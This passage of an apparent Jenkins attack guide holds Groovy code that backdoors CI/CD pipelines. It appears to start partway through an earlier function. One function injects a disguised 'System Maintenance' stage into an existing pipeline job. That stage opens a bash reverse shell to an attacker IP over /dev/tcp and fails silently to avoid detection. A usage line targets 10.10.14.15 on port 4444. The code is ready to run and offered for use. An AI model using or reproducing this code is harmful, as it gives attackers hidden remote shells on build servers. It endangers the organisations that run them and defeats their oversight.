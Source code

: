```groovy
            println "[+] Build triggered automatically"
        }
        
    } catch (Exception e) {
        println "Pipeline creation failed: ${e.getMessage()}"
    }
}

// Usage:
// createMaliciousPipeline("backdoor-build", "10.10.14.15", 4444)
```

#### Existing Pipeline Modification
```groovy
// Modify existing pipeline to include backdoor
def modifyExistingPipeline(String existingJobName, String attackerIP, int port) {
    try {
        def jenkins = Jenkins.instance
        def job = jenkins.getItem(existingJobName)
        
        if (job && job instanceof org.jenkinsci.plugins.workflow.job.WorkflowJob) {
            def currentDefinition = job.getDefinition()
            def currentScript = currentDefinition.getScript()
            
            // Inject backdoor into existing pipeline
            def backdoorStage = """
        stage('System Maintenance') {
            steps {
                script {
                    try {
                        // Establish reverse shell
                        def shell = '''bash -i >& /dev/tcp/$attackerIP/$port 0>&1'''
                        shell.execute()
                    } catch (Exception e) {
                        // Silently fail to avoid detection
                        println "Maintenance completed"
                    }
                }
            }
        }
"""
            
            // Insert backdoor stage before the last closing brace
            def modifiedScript = currentScript.replaceAll(/(\s*)\}(\s*)$/, "$backdoorStage$1}$2")
            
            // Update pipeline definition
            def newDefinition = new org.jenkinsci.plugins.workflow.cps.CpsFlowDefinition(modifiedScript, true)
            job.setDefinition(newDefinition)
            job.save()
            
            println "[+] Pipeline '$existingJobName' modified with backdoor"
            println "[+] Backdoor will trigger on next build execution"
            
        } else {
            println "[-] Job '$existingJobName' not found or not a pipeline job"
        }
        
    } catch (Exception e) {
        println "Pipeline modification failed: ${e.getMessage()}"
    }
}

```